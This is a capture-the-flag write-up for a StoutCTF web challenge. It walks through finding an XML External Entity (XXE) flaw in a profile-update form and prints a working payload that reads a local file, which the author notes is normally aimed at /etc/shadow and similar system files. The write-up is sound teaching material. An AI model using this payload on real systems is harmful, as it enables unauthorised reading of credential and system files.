





> This writeup can also be viewed [here](https://slavetomints.com/posts/stoutctf-lazy-profile-update/)

> Challenge description:
>
>Our last 10x engineer created very elaborate HTML forms, which nobody but her knew how to create, and we decided that we've had enough. We deleted her forms, and have moved to a super simple all XML based profile updating system.
>
>We do have this super duper secret flag hidden at `/app/flag.txt`.
>
>She was complaining about some vulnerability in the upload, but c'mon there's no SQL to exploit. What's the worst that could happen???

Alrighties, let's do another web chall!

## Playing With the Site



Hm, okay. Let's check out our profile.



Ugh, bland. Let's go to the update page.



Alright, let's throw some XML in there

```xml
<?xml version="1.0"?>
<profile>
    <name>Slavetomints</name>
    <bio>I run a blog nobody reads</bio>
    <location>https://slavetomints.com</location>
</profile>
```



And perfect.

...

Oh wait, we're doing a CTF challenge.

## Back to the Challenge

Now that we've sufficiently played with the site enough, there's a glaring vulnerability. Allowing the end-user to paste any XML they want into the site's backend. Why is it like this? Who knows, probably a lazy developer (I hate HTML forms).

We need to read a file from this site, and unfortunately the ~~developer~~ Flask was smart enough to just not let you go to that endpoint. 

However, since we can include anything in our XML, its pretty easy to just read the content from a file and include it in the code.

That looks something like this:

```xml
<?xml version="1.0"?>
<!DOCTYPE profile [
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<profile>
    <name>Slavetomints</name>
    <bio>&xxe;</bio>
    <location>https://slavetomints.com</location>
</profile>
```

This vulnerability is called XML External Entity (XXE) (yes the acronym is wrong) Injection. Its when we can include external entities, such as files, in the XML, and then it reads it off. Normally this is used in conjunction to read things like `/etc/password`, `/etc/shadow`, and other system files. But we want `/app/flag.txt`, so that's what we're including. We have to define it in the profile, and then include it somewhere in the XML by calling its name like `&xxe;`. This gets us the following result:



*Wow, I can't even get FlexBox to work*

FLAG: `STOUTCTF{ZLgpw9PqKEF2-Mo4d6oocAapmfu0rLSvdGwXz2vbOhF6AWRLW3l59hnT9HpGXiWcUjToMfhgx7UVkAWYgf2B8FhrDQl1qRTqAkd_}`